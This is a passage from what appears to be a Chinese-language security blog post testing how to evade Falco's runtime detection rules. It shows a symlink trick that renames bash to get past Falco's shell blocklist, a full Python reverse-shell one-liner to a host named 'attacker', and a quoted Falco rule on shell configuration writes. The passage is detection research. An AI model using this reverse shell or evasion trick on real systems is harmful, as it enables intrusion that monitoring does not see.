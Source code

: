 ### 4.3 第二次测试

执行上述命令，攻击者再次获得了shell，可以看到，告警也只有一条关于shell的了：

![](https://wohin.me/content/images/2019/12/C72DF27F-6473-4A04-AC77-5F31C326B6DD.png)

### 4.4 第二次绕过

那么，如何绕过剩下这个告警呢？思路是类似的，我们只需要使用黑名单之外的shell即可（上面的Python代码实质上调用了`/bin/sh`）。然而，规则文件中shell列表基本上把常见shell都包含进去了：`[ash, bash, csh, ksh, sh, tcsh, zsh, dash]`，想再找出一个其他的shell，不太容易。因此，我们考虑别的思路。例如，可以尝试软链接的方式变相为shell改名(普通用户权限不能直接修改 `/bin/sh` 的文件名；另外，为了规避可能发生的动态链接问题我们也不借助拷贝来实现改名，事实上这样也是可行的)：

```
ln -s /bin/bash /tmp/fake_bash
```

将前面的反弹shell中的`/bin/sh`替换掉：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker",10000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/tmp/fake_bash","-i"]);'
```

### 4.5 第三次测试

执行上述命令，攻击者又获得了shell :)，而且这次Falco没有任何告警：

![](https://wohin.me/content/images/2019/12/DCB8BC1F-60A6-47E2-B7D4-2994448E37AE.png)

### 4.6 触发隐藏剧情

虽然表面上看起来没有任何告警被触发，但是新的问题会出现：当攻击者在反弹shell中执行过命令然后退出时，当前shell会自动向 `~/.bash_history` 文件写入执行过的命令历史记录，这个操作同样会触发告警：

![](https://wohin.me/content/images/2019/12/B591998C-87E3-4C15-8503-8601510E1F68-1.png)

我们看一下原因，同样从 `/etc/falco/falco_rules.yaml` 文件中找到相应规则：

```
- rule: Modify Shell Configuration File
  desc: Detect attempt to modify shell configuration files
  condition: >
    open_write and
    (fd.filename in (shell_config_filenames) or
     fd.name in (shell_config_files) or
     fd.directory in (shell_config_directories)) and
    not proc.name in (shell_binaries)
  output: >
    a shell configuration file has been modified (user=%user.name command=%proc.cmdline file=%fd.name container_id=%container.id image=%container.image.repository)
  priority:
    WARNING
  tag: [file, mitre_persistence]
```
